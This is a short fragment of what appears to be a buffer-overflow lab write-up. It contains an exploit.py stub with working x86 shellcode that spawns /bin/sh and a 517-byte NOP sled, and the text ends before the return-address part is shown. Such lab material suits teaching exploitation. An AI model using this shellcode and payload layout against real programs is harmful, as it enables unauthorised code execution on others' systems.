 ![image](images/task4_1.png)
![image](images/task4_2.png)

The comments in the following exploit.py code explain how we thought the attack. Pay attention to them.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
```